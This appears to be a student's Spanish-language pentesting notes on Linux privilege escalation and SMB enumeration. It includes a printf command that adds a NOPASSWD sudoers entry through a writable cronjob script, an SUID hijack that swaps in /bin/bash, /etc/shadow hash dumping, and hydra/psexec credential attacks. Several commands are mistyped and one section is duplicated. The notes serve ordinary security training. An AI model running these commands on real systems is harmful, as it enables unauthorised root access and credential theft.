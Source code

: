 Algunos exploits necesitan el compilador GCC
	sudo apt-get install gcc


Explotar Misconfigured CronJobs
	Son trabajos que se repiten a cierta hora o en cierto momento especifico
	Cuando son creados por un usuario con privilegios estos jobs se van a ejecutar con privilegios, pero si este archivo de jobs tiene permisos mal configurados podria permitir editarlos cualquier usuario y los jobs se ejecutaran con permisios altos

	crontab -L -- indica si hay algun cronjob programado por root
	grep -rnw /urs -e "/home/student/message" -- Es un archivo con cronjobs, y creo que esta buscand donde esta o si tiene algun otro archivo que si se puede ejecutar (ya que en este caso esta dentro de root)
	
	En caso de no tener un editor de texto, se pueden modificar archivos con printf
	printf '#!/bin/bash\necho "studen ALL=NOPASSWD:ALL" >> /etc/sudoers > /urs/local/share/copy.sh
	

Explotando Binarios SUID (Set Owner ID)
	Son scripts o archivos que un usuario sin privilegios puede ejecutar un scripts con permisos de usuario- Son permisos SUID 
	./welcome - Ejecuta el script
	file welcome - Muestra informacion del archivo (Interprete es algo relevante)
	strings welcome - Que cadenas se pueden identificar dentro dek archivo
	rm greetings - Es un archivo al cual el script le hacia el llamado, asi que se borra y se reemplaza
	cp /bin/bash greetings - Basicamente crea otro archivo
	./wellcome --Hace el llamado a bin bash con permisos de root, y ya se tiene acceso


Dumping Linux Password Hashes
	/etc/shadow - Es la carpeta que contiene las credenciales de los usuarios hasheadas (Fijarse en $numero), solo desde una cuenta de altos privilegios
	search linux/hather/hashdump -- Crackeo automatico de hashes (A travez de session 1 o 2)


NETBIOS Y SMB
SMB: Protocolo para compartir archivos y comunicarse con impresoras etc
NetBios: Protocolo antiguo para compatibilidad, y determinar host (Solo funciona en LAN)

	Enumerar NetBios 
	> nbtscan IP_subnet.0/24 - Enumera los nombres de los host BIOS de red

NETBIOS Y SMB
SMB: Protocolo para compartir archivos y comunicarse con impresoras etc
NetBios: Protocolo antiguo para compatibilidad, y determinar host (Solo funciona en LAN)

	Enumerar NetBios 
	> nbtscan IP_subnet.0/24 - Enumera los nombres de los host BIOS de red
	nmblookup -A IP
	nmap -sUV -T4 --script=nbstat.nse -p137 -pn -n IP
	Al final obtiene el nombre del servicio con un escaneo normal
	--script=smb-enum-users.nse -Informacion de las cuentas smb
	Se usa hydra para encontrar las contraseñas de los usuarios enumerados
	psexec administrator@IP -Se inicia una sesion con privilegios de usuario (O con msf)
	SIEMPRE VERIFICAR EL PAYLOAD
	